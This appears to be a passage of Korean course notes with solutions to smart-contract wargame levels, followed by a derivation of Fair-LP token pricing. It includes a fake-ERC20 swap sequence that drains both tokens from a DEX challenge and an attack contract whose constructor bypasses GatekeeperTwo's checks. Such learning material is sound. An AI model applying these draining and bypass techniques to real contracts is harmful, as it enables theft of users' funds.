    → 가짜 토큰 만들어서 token1(token2)인척 하고 swap 해버리면?


#### ERC20으로 새로운 토큰 만들기
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract Token is ERC20 {
    constructor() ERC20("DRM", "DRM"){
    _mint(msg.sender, 400);
    }
}
```
    
![Untitled](https://file.notion.so/f/s/94d88b0e-65f5-4727-8218-9212a1d6d3bb/Untitled.png?id=364b6455-17fd-4108-a4dd-d3048ab97cd0&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=gI9eIqVog9HbqBEW5DaS0GbI7rFSczP4VatVoUszJZ0&downloadName=Untitled.png)

→ 0x2b31Ba0f0bEd57d00d6c86Debbd2727bb44c363e


#### 공격 순서(흐름) 정리
1. 가짜 토큰 만들기 → 400개 mint함
2. 1에서 만든 가짜 토큰을 DEX(문제컨트랙트)에 100개 보내기
    - 현재 dex에는 token1과 token2가 각각 100개씩 들어 있음
    - token1 : token2 : fake = 1 : 1 : 1
3. token1이랑 fake swap하기
    - token1과 fake의 비율 → 1 : 1
    - fake를 100개 넣고 token1을 100개 꺼내오면 → token1 = 0
    
    ![Untitled](https://file.notion.so/f/s/ef057acc-f030-4cc4-8847-2a632546e989/Untitled.png?id=138d5815-8e21-4d7b-8c4d-8616ccc96330&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=CEp6ZI7kFSioKJtAmpx5GxMxQG6Dpfv08qsBqo_8Enk&downloadName=Untitled.png)
    
4. token2랑 fake swap하기
    - token2이랑 fake의 비율 → 1 : 2
    - fake를 200개 넣고 token2 100개를 꺼내오면 → token2 = 0
    
    ![Untitled](https://file.notion.so/f/s/6024c0af-a434-4d01-bfcc-8db7f5cb442e/Untitled.png?id=6ba55d7e-20be-4dcc-afa8-55dad71ef34d&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=tNF2q_KXTqjKlSoEHv6NxnDrsjTORuztVfpA5jHjo-w&downloadName=Untitled.png)


#### console로 풀어보기
- DEX한테 fake 보내기
    
    ![Untitled](https://file.notion.so/f/s/a8dc437d-1cb0-4fdc-be22-2fbc00ec0324/Untitled.png?id=5d3e3d45-559c-465c-85ca-df30a0635506&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=xcc5McfAxG1mhE7Pw-Gkb8J-6BdQEMdCHmEBtjXm870&downloadName=Untitled.png)
    
- token1, token2, fake 설정해주기
    
    ![Untitled](https://file.notion.so/f/s/c1f92afd-352b-44c6-879b-23d1b39cfeb3/Untitled.png?id=f623a8a2-4e0f-4b82-97e5-35414eac9dfe&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=48JWttlfmOpdDgGGe8XTvVepvuceJjhRp2FIC5EEJFY&downloadName=Untitled.png)
    
- 제대로 왔는지 확인하기
    
    ![Untitled](https://file.notion.so/f/s/22f5af42-4d7b-4595-a025-7a62696363e2/Untitled.png?id=f207b29f-c8fb-450d-8945-446364176e39&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=zP9RaPE5m5RD0th9hvlASBz1gIRkV7XWj4kNYWyTBK8&downloadName=Untitled.png)
    
- 권한 주기
    
    ![Untitled](https://file.notion.so/f/s/0274b4f5-db51-461f-b825-2e70506f3977/Untitled.png?id=0964082f-742e-4599-824b-143fb7ab6dc7&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=t28ekFySPmAHvg9rCoroRoOBrSCpbGLSwEJT2-WAnsw&downloadName=Untitled.png)
    
    ![Untitled](https://file.notion.so/f/s/0372ef88-cce7-47e0-94dc-ea9f4f66e3c1/Untitled.png?id=94734579-a33a-4a8e-b1f7-7b489071d1fb&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=gO5lHPP2cLnLwbZnYKFEZW_gqrp5Gm7h2wMxZZS9T7k&downloadName=Untitled.png)
    
- swap
    
    ![Untitled](https://file.notion.so/f/s/db54c830-28e3-49b7-8319-31ded4f20633/Untitled.png?id=c697b3b9-acc3-450b-b7de-51e3f35af96a&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=roM5wfRg9E2ZJV8ZvJrZwpMjC5ZK5mzPm8gJzKytipc&downloadName=Untitled.png)
    
    ![Untitled](https://file.notion.so/f/s/f712152f-e5f2-4d33-b0f5-7d85d1be53ec/Untitled.png?id=a20c67e2-3e98-4f89-b3d5-011e5c0c030f&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=v41RHUL_uiELf-csJV_CpyxFSdCKi_Ei4bHM1Yx1vs8&downloadName=Untitled.png)
        

#### submit
    
![Untitled](https://file.notion.so/f/s/806a70a4-a013-4e20-a9b2-4eec387eb042/Untitled.png?id=3765a11c-3062-45da-a9b4-7725f92b5733&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=hgkyTN5vL1wnMGR6-upBXJwGXucE7M6AeL92e6CyQp4&downloadName=Untitled.png)
    
</details>

<details>
<summary> GateKeeper Two </summary>

### 목표 : gatekeeper 통과해서 Level 통과하기


#### 문제 컨트랙트
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

    address public entrant;

    modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
    }

    modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
    }

    modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
    }
}
```
    
#### gateOne
- msg.sender가 tx.origin이면 안됨 → attack 컨트랙트 만들어서 GatekeeperOne을 호출하게끔 만들어주기


#### gateTwo
- assembly 코드 실행
    - solidity에서 inline assembly에 사용되는 언어를 Yul이라고 함
    - `assembly{…}` 형태로 사용
- extcodesize : 주어진 주소에서 컨트랙트 코드의 크기를 갖게 됨
    - EVM은 존재하지 않는 컨트랙트에 대해 항상 succeed했다고 생각
    - external 호출할 때 extcodesize 사용해서 호출할 컨트랙트가 실제로 존재하는지에 대한 추가적인 검사 진행 → 호출될 컨트랙트가 실재로 존재하지 않으면 예외처리
- caller() → 함수 호출한 사람
- x가 0인지 확인
    - EOA가 호출 → gateOne 때문에 불가능
    - constructor 사용
        - constructor에서 호출하면 extcodesize는 항상 0

[EXTCODESIZE Checks - Ethereum Smart Contract Best Practices](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/extcodesize-checks/)
        

#### gateThree
- xor 연산은 같은 값으로 xor해주면 원래 값 알 수 있음
- type(…).max → …으로 표현할 수 있는 가장 큰 값



#### Attack 컨트랙트
        
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface GatekeeperTwo{
    function enter(bytes8) external returns(bool);
}

contract Attack{
    constructor() {
    GatekeeperTwo gatekeeper = GatekeeperTwo(0x72607bD56BB36D25a77A51C4F8351530ac10d97D);
    bytes8 xor = bytes8(keccak256(abi.encodePacked(address(this))));
    bytes8 gatekey = xor ^ 0xFFFFFFFFFFFFFFFF;
    gatekeeper.enter(gatekey);
    }
}
```
        
- constructor에서 xor 연산으로 gatekey 구해주고, gatekey를 인자로 하는 enter 함수 호출


#### submit
        
![Untitled](https://file.notion.so/f/s/84dc2e2a-f9b5-48c6-bc8a-4c03fd2b95a2/Untitled.png?id=d9ce7d38-c751-430d-9009-b1cc6fa5f10a&table=block&spaceId=e22d3740-ccb0-45be-94fb-71b2a782635c&expirationTimestamp=1693411200000&signature=txjzuM7BiubEg52Eeg2Ixpg2yVWI2bBDB8zjWWqXp1w&downloadName=Untitled.png)
        
</details>

<br>

## Task03. Dream Academy S02 Test Level5 (Dream Token) 문제 풀이 후 익스플로잇 코드, 플래그, 풀이 제출

<br>

## Task04. 다음 글을 보고 Fair-LP 관련 아래 문제들을 해결하시오

### Fair-LP
    - pool의 비율 깨짐 ( ex : 누군가 악의적으로 엄청난 양의 SWAP을 해버림)
    → 그럼 비율을 맞추려고 누군가는 열심히 swap을 하겠지만, 이 비율이 맞아질 때까지는 LP 토큰 가격을 산정할 때 실제 가격과 DEX에서 제공하는 가격이 달라짐 (실제 가치와 달라짐)
    → 이런 일을 방지하기 위한 것이 Fair LP
    - 즉, LP 토큰의 가격을 산정할 때 시장 가격과 풀에서 제공하는 가격을 맞춰주기 위한 것이라고 할 수 있음

### Fair-LP 증명
- 실제 reserve → x1, y1 → k = x1 * y1 → p
- Fair reserve → x2, y2 → k = x2 * y2
- 실제 reserve

$$
k = x_{1} * y_{1} = x_{2} * y_{2}
$$

$$
x_{2} * p = y_{2}
$$

$$
(x_{2})^2 * p = x_{2} * y_{2}
$$

$$
(x_{2})^2 * p = k
$$

$$
x_{2} = \sqrt{\frac{k}{p}}
$$

$$
y_{2} = \sqrt{k\cdot p}
$$
